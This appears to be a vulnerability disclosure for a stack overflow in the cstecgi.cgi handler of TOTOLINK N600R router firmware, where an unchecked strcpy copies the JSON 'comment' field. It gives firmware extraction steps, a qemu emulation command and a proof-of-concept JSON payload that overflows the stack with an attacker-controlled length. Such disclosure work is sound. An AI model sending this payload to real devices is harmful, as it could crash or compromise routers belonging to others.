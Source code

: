 # TOTOLINK_N600R_V4.3.0cu.7866_B20220506_strcpy_stack_overflow
## File download address : https://totolink.tw/support_view/N600R
First decompress the source file through binwalk
```binwalk -Me TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web```
## Stack Overflow
In the main function, the memory allocation size is set according to the environment variable CONTENT_LENGTH, which is parsed through the cJSON_Parse library function. The comment field will be strcpyed into the memory, and there is no length check, which will cause stack overflow.

<img width="364" alt="截屏2025-04-23 11 21 27" src="https://github.com/user-attachments/assets/dfbbbf88-5489-4309-b02c-8d25d4539414" />


In the function at the binary file address 0x00418e38, the length of the read "comment" segment is not checked, and an overflow occurs when copied to the memory through strcpy.

<img width="314" alt="截屏2025-04-23 14 34 43" src="https://github.com/user-attachments/assets/07706bc2-3a8f-4414-997a-21387c6ceec9" />


## Simulate running in qemu
```
sudo chroot ./ ./qemu-mips-static\
    -E CONTENT_LENGTH="10000"  -g 123 -L ./lib \
    ./web_cste/cgi-bin/cstecgi.cgi  < ./poc `
```
The poc file input is the following json format string：
```
{
    "topicurl": "UploadCustomModule/setMacFilterRules",
    "macAddress": "abc",
    "comment": "qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuioasdfghjklzxcvbnmqazwsxedcrfvtgb12344567891234doit"
}
```
We can see that the string overflows to stack addresses 0x2b2a9b2a to 0x2b2a9b99, and the overflow length can be controlled arbitrarily.
<img width="556" alt="截屏2025-04-23 15 35 27" src="https://github.com/user-attachments/assets/40406528-b71b-4409-a0de-bab84af845d9" />

